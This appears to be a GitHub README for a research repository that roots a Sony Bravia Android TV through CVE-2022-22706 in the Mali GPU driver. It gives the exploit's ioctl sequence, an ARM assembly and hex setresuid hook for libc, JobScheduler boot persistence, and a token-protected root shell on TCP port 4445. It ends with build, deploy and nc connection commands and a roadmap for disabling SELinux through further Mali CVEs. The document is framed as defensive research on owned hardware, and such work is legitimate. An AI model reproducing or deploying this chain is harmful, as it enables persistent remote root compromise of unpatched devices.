



<p align="center">
  
</p>

<p align="center">
  <a href="https://android.com"></a>
  <a href="https://www.mediatek.com"></a>
  <a href="https://developer.android.com/about/versions/oreo"></a>
  <a href="https://kernel.org"></a>
  <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-22706"></a>
  <a href="tools/rootconsole.ps1"></a>
</p>

---

## 1. Executive Summary & Problem Space

Consumer embedded appliances routinely reach end-of-support while remaining active daily-driver devices in living rooms. The **Sony Bravia XBR-65X850D** (board platform `SVP-DTV15`, MediaTek `MT5890` SoC) received its final system firmware upgrade to Android 8.0.0 Oreo (`OPR2.170623.027.S16`, release `6.827`) in early 2020. The Android Security Patch Level (SPL) was frozen at **2020-01-01** and never patched again.

Standard device hardening enforces strict hardware and OS-level boundaries:
* **Hardware & Bootloader**: `ro.boot.flash.locked=1`, `ro.secure=1`, `ro.debuggable=0`, and kernel `dm-verity` cryptographically seal `/system` against offline modification.
* **Storage Protection**: `/data` is mounted `nosuid`, neutralizing classic setuid binary drops.
* **Firmware Integrity**: Recovery partitions reject unsigned USB packages, and hardware UART is physically inaccessible without panel destruction.
* **Kernel & LSM**: SELinux runs in strict `enforcing` mode across all domains (`permissive=0`).

```
                              ┌─────────────────────────────────────────────────────────┐
                              │           SONY BRAVIA XBR-65X850D TRUST PERIMETER       │
                              │                                                         │
  ADB TCP :5555 (uid 2000) ──►│  [Blocked] dm-verity: Read-only block storage (eMMC)   │
                              │  [Blocked] nosuid mount on /data                       │
                              │  [Blocked] Recovery image signature verification        │
                              │  [VULNERABLE] World-accessible /dev/mali0 (Midgard)    │
                              └───────────────────────────┬─────────────────────────────┘
                                                          │
                                                          ▼
                                    CVE-2022-22706 Page-Cache Write Primitive
                                    (Mutates memory without touching flash storage)
```

This repository documents the end-to-end vulnerability research, weaponization, and reboot-surviving persistence pipeline developed against this target. By exploiting **CVE-2022-22706** in the unpatched ARM Mali `kbase` kernel driver, an arbitrary RAM page-cache write primitive was forged. This primitive was utilized to install a **targeted syscall hook on `libc.so` (`setresuid`)**, allowing our probe application to retain `uid 0` upon fork while preserving normal privilege drops for core Android TV services. Combined with a self-healing **JobScheduler persistence loop**, the exploit exposes a full interactive root shell over TCP port `4445` (LAN and Tailscale) that returns cleanly after every cold reboot without manual intervention.

---

## 2. Exploit & Persistence Architecture

The entire attack chain operates strictly in memory, leaving flash storage pristine and dm-verity validation 100% intact.

<p align="center">
  
</p>

### Pipeline Phases
1. **Foothold & Driver Access**: ADB over Wi-Fi lands in `uid 2000` (`u:r:shell:s0`). Among 647 nodes in `/dev`, `/dev/mali0` is world-accessible (`crw-rw-rw-`). The driver is ARM Mali Midgard `r20p0-01rel0` (UK version `10.6`), published in 2020 and unpatched against post-2020 CVEs.
2. **Page-Cache Corruption (CVE-2022-22706)**: Exploit imports an anonymous user buffer into Mali with `KBASE_REG_CPU_WR` enabled but `KBASE_REG_GPU_WR` cleared. The target file (`/system/lib/libc.so`) is mapped read-only and `mremap`'d over the imported buffer. Submitting a soft-event-wait atom forces the kernel's `get_user_pages()` to pin the actual **Linux page-cache page** read-only while handing userspace a writable GPU alias. Writing through this alias mutates the shared executable memory of all system processes.
3. **Targeted `setresuid` Hook**: The first 4 bytes of `setresuid` at offset `0x4a990` in `libc.so` are overwritten with an ARM branch `b 0x25a90` (`3e 6c ff ea`). The branch lands in `__ns_sprintrrf` (an unused 7,724-byte DNS debug formatter). The hook checks `r0 == 10014` (our probe app UID). If matched, it returns 0 (`mov r0, #0; bx lr`), bypassing the privilege drop. All other processes jump to the real syscall (`mov r7, #208; svc #0; bx lr`), preventing OS instability.
4. **Autonomous Boot Persistence**: Android TV 8.0 suppresses `BOOT_COMPLETED` for sideloaded applications. Persistence is achieved via Android's `JobScheduler` (`setPersisted(true)`, `setMinimumLatency(1500)`). The job runs under normal UID 10014, invokes JNI `libpwn.so` to re-apply the page-cache patch, schedules an `AlarmManager` wake-up (+3s), and kills its own process. The alarm triggers Zygote to fork a fresh process; `setresuid` intercepts the drop, and the application launches as `uid=0(root)`.
5. **Interactive Console Daemon**: The elevated process initiates `ConsoleService` (a sticky foreground service) listening on TCP port `4445`. It authenticates connections via token and executes shell commands as `uid 0`, bypassing Android framework permission gates.

---

## 3. Technical Deep Dive

### 3.1 Kernel Vulnerability Analysis (CVE-2022-22706)

In Mali driver version `r20p0-01rel0`, user-space buffer memory imported via `KBASE_IOCTL_MEM_IMPORT` evaluates pinning flags inconsistently in `mali_kbase_mem_linux.c`:

```c
/* Pinning logic in kernel driver: only GPU write flag governs FOLL_WRITE */
err = get_user_pages(current, current->mm,
                     reg->imported->user_buffer.ptr,
                     reg->imported->user_buffer.length >> PAGE_SHIFT,
                     reg->flags & KBASE_REG_GPU_WR ? FOLL_WRITE : 0,  /* ← pin mode */
                     pages, NULL);

/* CPU mapping logic: governed by separate CPU write flag */
if (reg->flags & KBASE_REG_CPU_WR) {
    /* allocates writable userspace CPU alias */
}
```

By requesting `flags = KBASE_REG_CPU_RD | KBASE_REG_CPU_WR | KBASE_REG_GPU_RD` (value `0x7`), `FOLL_WRITE` is not passed to `get_user_pages`. The kernel pins the page without marking it dirty or triggering Copy-on-Write (COW).

```
   Target File: /system/lib/libc.so (Read-Only Shared Mapping)
   ┌──────────────────────────────────────────────────────────┐
   │ Linux Kernel Page Cache Page                             │
   └───────────────┬──────────────────────────▲───────────────┘
                   │                          │ Writable Alias
         Pinned as │ Read-Only                │ (Bypasses VMA check)
                   ▼                          │
   ┌───────────────────────────────┐  ┌───────┴───────────────┐
   │ get_user_pages() (No COW)     │  │ Mali CPU Mapping      │
   └───────────────────────────────┘  └───────────────────────┘
```

The weaponization sequence executed in `exploit/page-cache-write/pcwrite.c` and `apk/jni-pwn-persistent.c`:
1. Open `/dev/mali0`, complete `KBASE_IOCTL_VERSION_CHECK` (`{10, 6}`), set flags to `0`, and map tracking page at offset `0x3000`.
2. Allocate 1 event page via `KBASE_IOCTL_MEM_ALLOC` (`flags = 0xF`).
3. Map target file `/system/lib/libc.so` read-only shared: `mmap(NULL, PAGE, PROT_READ, MAP_SHARED, fd, 0x4a000)`.
4. Create anonymous buffer and import into Mali via `KBASE_IOCTL_MEM_IMPORT` (`flags = 0x7`, `type = BASE_MEM_IMPORT_TYPE_USER_BUFFER`).
5. Replace anonymous mapping with the file mapping using `mremap(file_map, PAGE, PAGE, MREMAP_FIXED | MREMAP_MAYMOVE, anon_ptr)`.
6. Submit a soft-event-wait atom (`core_req = 0x305`) referencing the imported GPU address as an external resource. This forces the driver to call `kbase_jd_user_buf_pin_pages()`.
7. Write the patch payload through the GPU alias (`mmap` at `imported.gpu_va`). The write directly mutates the page cache.
8. Resolve soft event via `KBASE_IOCTL_SOFT_EVENT_UPDATE` to release the atom cleanly.

### 3.2 The Targeted `setresuid` Hook

In Android 8.0, app spawning occurs inside Zygote (`ForkAndSpecializeCommon` in `libandroid_runtime.so`):
```
Zygote (root) ──► fork() ──► Child ──► setgroups() ──► setresgid() ──► setresuid() ──► execve()
```

Intercepting `setresuid` in `/system/lib/libc.so` at `0x4a990`:
```armasm
.globl setresuid
.type setresuid, %function
0x4a990:  mov r12, r7          ; Original libc prologue
0x4a994:  mov r7, #208         ; __NR_setresuid syscall number
0x4a998:  svc #0
0x4a99c:  bx  lr
```

#### Why An Unconditional Bypass Fails
During preliminary testing, `setresuid` was hooked to unconditionally return `0` (`mov r0, #0; bx lr`). This caused **every single process on the television** (`com.android.systemui`, `com.android.tv.settings`, Google Play Services) to execute as `uid 0`. Core Android services rely on distinct Linux UIDs to partition SQLite database permissions, Android keystore isolation, and IPC endpoints. Running everything as root immediately corrupts system databases and triggers watchdog soft-reboot loops.

#### Targeted Payload Architecture
The hook was redesigned to be surgical. The branch at `0x4a990` points to payload code assembled in `exploit/payloads/setresuid-targeted.s`:

```armasm
.text
.align 4
_start:
    movw r1, #10014            /* Target app UID: u0_a14 (com.pwn.probe) */
    cmp  r0, r1
    bne  real_syscall          /* Not our app? Forward to genuine syscall */
    mov  r0, #0                /* Pretend success: preserve uid 0 for probe */
    bx   lr

real_syscall:
    mov  r7, #208              /* __NR_setresuid */
    svc  #0                    /* Execute real privilege drop */
    bx   lr
```

Hex encoding:
```
Branch @ 0x4a990 : 3e 6c ff ea    (b 0x25a90)
Payload @ 0x25a90: 1e 17 02 e3 01 00 50 e1 01 00 00 1a 00 00 a0 e3
                   1e ff 2f e1 d0 70 a0 e3 00 00 00 ef 1e ff 2f e1
```

Verification across process table:
```console
$ adb shell ps -A -o PID,UID,LABEL,NAME | grep -E "tv.settings|pwn"
2260  1000 u:r:system_app:s0               com.android.tv.settings   ← Normal UID drop
5761     0 u:r:untrusted_app:s0:c512,c768  com.pwn.probe            ← Retains UID 0
```

### 3.3 Boot Persistence Engineering

| Challenge | Root Cause | Engineering Solution |
|---|---|---|
| **`BOOT_COMPLETED` Drop** | Android TV 8.0 suppresses boot broadcast for sideloaded packages. | Migrated to Android `JobScheduler` with `JobInfo.Builder.setPersisted(true)` and `setMinimumLatency(1500)`. |
| **UID 0 Job Re-Arming Rejection** | Android OS explicitly forbids `uid 0` processes from scheduling jobs (`uid 0 cannot schedule job`). | Boot job runs initially as standard UID 10014, re-arms the next boot job *before* elevating, then self-restarts. |
| **GPU VA Address Truncation** | Compiling JNI `.so` without 64-bit file offsets causes 32-bit `off_t` truncation for 64-bit GPU virtual addresses, throwing `ENOMEM (12)`. | Enforced `-D_FILE_OFFSET_BITS=64` compiler flag in `apk/build.ps1` and JNI compilation toolchain. |
| **Process Re-Spawning** | Current process cannot retroactively clear its own already-dropped credentials. | Service schedules `AlarmManager` wake-up (+3s), terminates via `Process.killProcess(Process.myPid())`, and lets Zygote fork a fresh instance. |

---

## 4. Live Verification & Terminal Showcase

Authentic execution capture demonstrating interactive root console interaction via `tools/rootconsole.ps1`:

<p align="center">
  
</p>

### Verified Capability Matrix

```
┌──────────────────────────────────────────────────────────┬────────────────────────┐
│ Capability / Action                                      │ Status                 │
├──────────────────────────────────────────────────────────┼────────────────────────┤
│ Interactive root shell over TCP :4445 (LAN & Tailscale)  │ ✅ GRANTED (uid 0)     │
│ Autonomous reboot survival with zero human intervention  │ ✅ VERIFIED            │
│ Bypass Android Framework Permission Checks               │ ✅ GRANTED (uid 0)     │
│ Arbitrary Global/Secure Settings (`settings put/get`)    │ ✅ GRANTED             │
│ Silent Application Management (`pm install/grant/cmd`)   │ ✅ GRANTED             │
│ Full External Storage Access (`/sdcard`)                 │ ✅ GRANTED             │
│ Raw block storage writes (`/dev/block/mmcblk0`)          │ ❌ BLOCKED (SELinux)   │
│ Remount `/system` read-write                             │ ❌ BLOCKED (SELinux)   │
│ Modify SELinux enforcement (`setenforce 0`)              │ ❌ BLOCKED (SELinux)   │
└──────────────────────────────────────────────────────────┴────────────────────────┘
```

> **Security Research Note on SELinux Containment:**  
> While the probe process commands `uid=0(root)`, it remains bounded by the `u:r:untrusted_app:s0` SELinux domain. Android's Application Manager and PackageManager evaluate `checkComponentPermission()`, which grants unrestricted access to `uid 0`. However, Linux Kernel Security Modules (LSM) independently enforce mandatory access control. Full unrestricted kernel root requires neutralizing `selinux_enforcing` via kernel-space memory corruption (see [Research Roadmap](#7-research-roadmap)).

---

## 5. Repository Structure

```
.
├── assets/
│   ├── hero.png                          # Avant-garde project hero banner (1600x640)
│   ├── hero.svg                          # Scalable vector hero composition
│   ├── exploit-pipeline.svg              # High-contrast exploit & persistence architecture
│   └── terminal_rootconsole.png          # High-resolution terminal capture of root session
├── apk/
│   ├── AndroidManifest.xml               # Service, receiver, and JobScheduler declarations
│   ├── build.ps1                         # Android NDK / SDK build pipeline (clang, d8, aapt2)
│   ├── jni-pwn-persistent.c              # JNI page-cache patcher implementation
│   └── src/com/pwn/probe/
│       ├── BootJobService.java           # Persisted JobService executing at cold boot
│       ├── BootReceiver.java             # Alarm receiver initiating elevated console
│       ├── Console.java                  # Multi-threaded TCP daemon on port 4445
│       ├── ConsoleService.java           # Sticky foreground service wrapper
│       ├── Main.java                     # Initial arming and JNI lifecycle coordinator
│       └── Shell.java                    # Background diagnostic probe
├── docs/
│   ├── 01-device-and-recon.md            # Hardware recon and eliminated attack surfaces
│   ├── 02-cve-2022-22706.md              # Mali user-buffer import bug & page-cache primitive
│   ├── 03-root-takeover.md               # Targeted setresuid hook design & assembly
│   ├── 04-persistence.md                 # JobScheduler boot survival mechanics
│   ├── 05-zygote-domain.md               # Java execution within u:r:zygote:s0
│   ├── 06-limitations-and-roadmap.md     # SELinux boundaries and kernel horizon
│   ├── 07-kernel-primitive-analysis.md   # CVE-2022-20186 & CVE-2023-4211 analysis
│   └── ENGINEERING-LOG.md                # Chronological lab notes and raw terminal logs
├── exploit/
│   ├── page-cache-write/
│   │   └── pcwrite.c                     # Standalone CLI page-cache write weaponization
│   ├── payloads/
│   │   └── setresuid-targeted.s          # ARM assembly for targeted UID check
│   ├── cve-2022-20186/
│   │   └── alias_dryrun.c                # Integer overflow arithmetic test harness
│   └── cve2023-4211-poc.c                # Mali UAF kernel write research harness
└── tools/
    ├── rootconsole.ps1                   # Interactive PowerShell client for TCP port 4445
    └── tv-restore.ps1                    # Post-reboot automated state restoration utility
```

---

## 6. Build & Reproduction Guide

### Prerequisites
* **Android NDK** (r21e tested, ARMv7 toolchain support)
* **Android SDK Build-Tools** (`aapt2`, `d8`, `zipalign`, `apksigner`)
* **JDK 17**
* **PowerShell 7+** or standard bash shell

### 1. Compiling the Standalone Primitive (`pcwrite`)
To verify the write primitive independently from an existing ADB shell:

```bash
# Compile with 64-bit file offsets targeting armv7a Android 21
clang --target=armv7a-linux-androideabi21 \
      --sysroot=$ANDROID_NDK/sysroot \
      -D_FILE_OFFSET_BITS=64 -O2 \
      -o pcwrite exploit/page-cache-write/pcwrite.c

# Deploy to target TV
adb push pcwrite /data/local/tmp/
adb shell chmod 755 /data/local/tmp/pcwrite

# Execute test write on /system/etc/hosts (in-memory test)
adb shell /data/local/tmp/pcwrite /system/etc/hosts 0 3132372e302e302e320a
```

### 2. Building and Arming the Persistent Root APK
Build the APK packaging the JNI patcher, the JobScheduler service, and the TCP root console:

```powershell
# Navigate to APK build directory and run automated build pipeline
cd apk
.\build.ps1

# Install to TV over ADB TCP
adb install -r pwn.apk

# Initialize the persistent JobScheduler loop (run once)
adb shell am start -n com.pwn.probe/.Main
```

### 3. Connecting to the Root Console
Once armed or following a system reboot:

```powershell
# Interactive connection using the client script
.\tools\rootconsole.ps1 -Address 192.168.1.50 -Port 4445 -Token "<YOUR-TOKEN>"
```

Or via netcat:
```bash
nc 192.168.1.50 4445
<YOUR-TOKEN>
id
```

### 4. Clean Removal
Because all modifications live exclusively in volatile RAM page caches, removing persistence and returning the TV to factory state is trivial:

```bash
# Uninstall the package to unregister the JobScheduler job
adb uninstall com.pwn.probe

# Reboot the television to flush memory
adb reboot
```
Upon reboot, `/system/lib/libc.so` is reloaded cleanly from read-only eMMC flash.

---

## 7. Research Roadmap: Kernel R/W & SELinux Disabling

To bridge the final gap between Android framework root and unrestricted kernel execution, ongoing research explores two additional Mali GPU vulnerabilities documented in this repository:

1. **CVE-2022-20186 (`kbase_mem_alias` Overflow)**:
   - Vulnerability: Unchecked multiplication in `kbase_mem_alias` allows an integer overflow (`nents * stride`), accepting an excessively large region size while allocating fewer pages.
   - Status: Overflow condition **confirmed reproducible** on hardware with `stride = 0x8000000000000001, nents = 2`.
   - Goal: Overlap GPU page tables with kernel physical memory allocations to achieve arbitrary physical write primitives, enabling a direct overwrite of `selinux_enforcing` to `0`.
2. **CVE-2023-4211 (Kernel UAF Write)**:
   - Status: Mali GPU Use-After-Free condition verified in `exploit/cve2023-4211-poc.c`, corrupting `mm_struct` slabs on the 3.10.79 kernel while keeping the TV alive. Detailed analysis recorded in `docs/07-kernel-primitive-analysis.md`.

---

## 8. Responsible Disclosure & Legal Notice

* **Authorized Research**: This security research was conducted exclusively on personally owned hardware for defensive analysis, platform longevity, and vulnerability exploration.
* **Public Knowledge**: Both CVE-2022-22706 and CVE-2022-20186 are publicly documented vulnerabilities patched upstream by ARM and Google in 2021–2022. No zero-day vulnerabilities are disclosed.
* **Sanitized Artifacts**: Device hardware serial numbers, Wi-Fi MAC addresses, local network IPs, and authentication tokens have been sanitized across all published source code and documentation.

---

<p align="center">
  <sub>Developed with passion for low-level systems engineering and hardware longevity.</sub>
</p>
